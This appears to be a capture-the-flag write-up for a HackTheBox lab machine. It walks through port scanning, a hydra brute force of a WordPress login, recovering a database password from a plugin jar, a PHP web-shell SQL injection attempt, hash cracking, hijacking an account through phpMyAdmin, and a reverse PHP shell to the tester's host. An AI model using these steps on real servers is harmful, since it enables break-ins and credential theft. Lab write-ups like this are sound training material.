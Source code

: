 # Solution

Start with a nmap scan as usual
```
nmap -sC -sV -oN nmap-initial 10.10.10.37
```

We have a wordpress website. We use wpscan to enumerate.  
We run gobuster in background to scan for directories.  
We go in the wordpress login page and try to enumerate the users using hydra. While the enumeration is running, we focus on other services.  
```
hydra -L /usr/share/wordlists/rockyou.txt -p password 10.10.10.37 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&redirect_to=http%3A%2F%2F10.10.10.37%2Fwp-admin%2F&wp-submit=Log In&testcookie=1:invalid username'
```
---
We focus the attention on the profptd service. Version 1.3.5 has vulnerabilities, it allows unauthenticated users to use SITE CPFR and SITE CPTO. Metasploit offers exploit to it as well as Exploit DB. First we try to see if it is actually vulnerable:
```
ftp 10.10.10.37
```
We log in with random credentials.  
Surprisingly when we try to use the CPFR command we are required to be authenticated.
```
ftp> site cpfr /etc/passwd
530 Please login with USER and PASS
```
Therefore it seems that it is not vulnerable.  

---
We switch our focus on the webserver.  Hydra hasn't found anything interesting. 

Run nikto
```
nikto -host 10.10.10.37 -output nikto.txt
```

We run gobuster and we find some directories:
```
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We browse some of them. In plugins we find 2 .jar archives. We download them and we focus on BlockyCore.jar.
We extract it and we find a .class file. We can see the human readable characters in the .class file:
```
> strings BlockyCore.class
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```
We have an interesting hex string: 8YsqfCTnvxAUeduzjNSXe22.  
We try to use it in the ssh login with the root user but it doesn't work. We try in the wordpress login page but it doesn't work as well.  
We try in the phpmyadmin page with root username and it works. We are inside the phpmyadmin panel.

Now we want to get access to the underlying OS. We first try using SQL by uploading a file with a backdoor.
```
SELECT '<?php system($_GET["cmd"]);?>' into outfile "/var/www/shell.php";
```
However we get this error
```
The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```
which means that cannot write to that location. We want to figure out if we have write access on some directories. We can do this by looking at the value of the option "secure_file_priv"
```
SHOW VARIABLES LIKE "secure_file_priv" 
```
The value returned is /var/lib/mysql-files/ . Therefore we know that we can write to the directory /var/lib/mysql-files/.   
We change the command to inject in the file since the file will not be visible in the web browser. We run the following test to see if we can potentially inject a backdoor (10.10.14.25 is the address of my local machine):  
```
SELECT 'ping -c 1 10.10.14.25' into outfile "/var/lib/mysql-files/ping.sh"
```
We will use the LOAD DATA INFILE command to try to execute the script.  
We can set up tcpdump locally and check whether the ping is working.
```
tcpdump -i tun0 'icmp or icmp6'
```

Now we can try to start the ping.
```
LOAD DATA INFILE('/var/lib/mysql-files/ping.sh')
```
We don't receive answer.  
I try another way. From phpmyadmin we can see that one of the user is 'notch'. We also have the hash of his password. In background we set up the password bruteforce using wpscan:
```
wpscan --url http://10.10.10.37 -U notch -P /usr/share/wordlists/rockyou.txt
```

And we also look for the hash crack. The hash is
```
$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
We can use hashcat to crack it. The hash is a portable php hash. We have to find the right mode in hashcat. We can do it in the following way:
```
>hashcat --example-hashes | grep -A 2 -B 2 php

MODE: 400
TYPE: phpass
HASH: $P$946647711V1klyitUYhtB8Yw5DMA/w.
PASS: hashcat
```
We see hat the hash format actually matches. We now know that the mode is 400.  
We can proceed to crack it. We go for 
```
hashcat -m 400 -a 0 hash.txt  /usr/share/wordlists/rockyou.txt
```
Meanwhile we can try to change the password with a hash generated by us and see if we can actually log in ( we leave hashcat working, hoping that the we can retrieve the notch ssh password once the hash got cracked).  
We take the string "ciao" and we hash it using portable php hash and we get the hash :
```
$P$BthUuP2pHNnXtMpSjXC2PkhuraA1/J/
```
Now we can go in phpmyadmin and change the password for the user 'notch'. Then we can go in the login page of wordpress and try to login using username 'notch' and password 'ciao'.  
It works, we can enter the wordpress portal.  

We want to execute php from wordpress. We install the plugin PHP code snippet. Thanks to that we can add php to our pages. We can get a shell by uploading the pentestmonkey reverse PHP shell.  
We have now a shell, it runs under the user www-data.  
We import a bash shell with python:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We transfer and run LinPeas and LinEnum, execute them and study the results to find a way to escalate the privileges.  

---

Looking back at hashcat, we couldn't crack the hash. We try again to SSH into the box using root and 8YsqfCTnvxAUeduzjNSXe22, doubtfull whether We've already tried it or not (Yes we did). This time we also tried with the notch user and the same password. We had no expectations but it actually worked ... We could have solved the box at least some hours before... 

